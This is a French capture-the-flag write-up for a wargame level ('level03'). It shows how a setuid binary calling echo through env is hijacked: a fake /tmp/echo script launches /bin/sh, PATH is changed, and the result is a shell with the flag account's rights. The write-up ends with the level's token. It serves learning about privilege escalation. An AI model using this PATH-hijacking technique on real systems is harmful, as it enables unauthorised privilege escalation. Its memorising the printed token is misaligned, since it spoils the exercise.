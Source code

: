 # level03

1. Fichiers trouvés dans `~/` :

Fichier : `./level03` appartenant à `flag03`

2) Exécution du binaire trouvé :

```bash
chmod +x level03
Exploit me
```

3) Inspection du binaire avec strings et file :

```bash
file level03
strings -n 6 level03 | grep echo
```
4) Résultats : 

Le binaire utilise echo depuis son PATH dans l'environnement et possède les droits de son créateur (setuid / setgid).
```bash
setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```
```bash
/usr/bin/env echo Exploit me
```

5) Objectif :

Détourner echo vers une invite de commande afin de lancer `getflag`.

```bash
echo '/bin/sh' > /tmp/echo
chmod +x /tmp/echo
```
Maintenant le script tmp/echo ouvre une invite de commande, et ensuite on change le PATH d'echo vers tmp/echo dans l'environnement.

```bash
export PATH=/tmp:$PATH
```

6) Nous voilà maintenant dans une invite de commande possédant les droits de flag03, il ne nous reste plus qu'à appeler getflag.

```bash
getflag
```
7) Token découvert :

le token est `qi0maab88jeaj46qoumi7maus`
